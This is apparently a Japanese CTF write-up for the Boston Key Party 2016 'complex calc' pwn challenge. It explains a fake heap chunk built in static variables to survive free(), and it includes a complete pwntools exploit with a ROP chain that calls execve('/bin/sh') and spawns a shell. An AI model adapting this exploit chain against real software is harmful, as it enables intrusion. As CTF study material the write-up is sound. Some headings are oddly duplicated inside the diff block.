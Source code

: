 ```yaml
---
layout: post
alias: "/blog/2017/03/07/boston-key-party-2016-complex-calc/"
date: "2017-03-07T15:50:38+09:00"
tags: [ "ctf", "writeup", "pwn", "boston-key-party-ctf", "heap" ]
"target_url": [ "https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/complex-calc-5" ]
---
```


# Boston Key Party CTF 2016: complex calc

適当にそれっぽくしてたらいつの間にか解けた。

## problem

[Boston Key Party CTF 2016: simple calc](https://github.com/ctfs/write-ups-2016/tree/master/boston-key-party-2016/pwn/simple-calc-5)の続き。

バイナリはほぼ一致していて、以下だけが異なる。
これによりstackが壊れた後の`free(buf);`を`free(NULL);`にしてやり過ごすことができない。

```
$ diff <(objdump -d -M intel simple-calc) <(objdump -d -M intel complex-calc)
2c2
< simple-calc:     file format elf64-x86-64
---

# Boston Key Party CTF 2016: complex calc
> complex-calc:     file format elf64-x86-64
22761,22762c22761,22762
<   4156e0:	48 85 ff             	test   rdi,rdi
<   4156e3:	0f 84 af 00 00 00    	je     415798 <__cfree+0xc8>
---

# Boston Key Party CTF 2016: complex calc
>   4156e0:	0f 1f 00             	nop    DWORD PTR [rax]
>   4156e3:	66 0f 1f 44 00 00    	nop    WORD PTR [rax+rax*1+0x0]
```

## solution

addressが既知な適当な位置に`free`に渡せるchunkっぽい構造を作る必要がある。

書き込みが可能のそのような空間は計算の仮定で使われる以下の静的変数のみである。
ここに作る。

``` c
int add [3]; // 0x6c4a80
int divv[3]; // 0x6c4a90
int mul [3]; // 0x6c4aa0
int sub [3]; // 0x6c4ab0
```

まず先頭の`add`に$33$ (chunk size $32$byte + `PREV_INUSE` bit $1$)を書き込む。
次のchunkが位置することになる`divv`, `mul`, `sub`のあたりは、`PREV_INUSE`を真にするため適当な奇数で埋めておく。
これで通る。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
import argparse
parser = argparse.ArgumentParser()
# parser.add_argument('host', nargs='?', default='localhost')
# parser.add_argument('port', nargs='?', default=8000, type=int)
parser.add_argument('--log-level', default='debug')
parser.add_argument('--binary', default='complex-calc')
args = parser.parse_args()
context.log_level = args.log_level
elf = ELF(args.binary)

# int add [3]; 0x6c4a80
# int divv[3]; 0x6c4a90
# int mul [3]; 0x6c4aa0
# int sub [3]; 0x6c4ab0

# p = remote(args.host, args.port)
p = process(args.binary)
p.recvuntil('Expected number of calculations: ')
p.sendline('255')
def calc(op, x, y):
    p.recvuntil('=> ')
    p.sendline(str({ '+': 1, '-': 2, '*': 3, '/': 4 }[op]))
    p.recvuntil('Integer x: ')
    p.sendline(str(x))
    p.recvuntil('Integer y: ')
    p.sendline(str(y))
def write64(value):
    for z in [ u32(p64(value)[:4]), u32(p64(value)[4:]) ]:
        for x in range(0x100):
            y = (x - z) % 0x100000000
            if x >= 40 and y >= 40:
                calc('-', x, y)
                break
        else:
            assert False

write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(u64('AAAAAAAA'))
write64(0x6c4a90) # free
write64(u64('AAAAAAAA'))
write64(1) # rbp

# write /bin/sh
write64(0x401b73) # pop rdi ; ret
write64(0x006c2000 - 8)
write64(0x44db34) # pop rax ; ret
write64(u64('/bin/sh\0'))
write64(0x40dc26) # mov qword ptr [rdi + 8], rax ; ret

# sys_execve
write64(0x401b73) # pop rdi ; ret
write64(0x006c2000)
write64(0x401c87) # pop rsi ; ret
write64(0)
write64(0x437a85) # pop rdx ; ret
write64(0)
write64(0x44db34) # pop rax ; ret
write64(59) # sys_execve
write64(0x4648e5) # syscall

# make chunk
calc('+', 40+33, -40)
calc('-', 41, 41)
calc('/', 41, 41)
calc('*', 41, 41)

p.recvuntil('=> ')
p.sendline('5')
time.sleep(1)
p.sendline('id')
p.interactive()
```
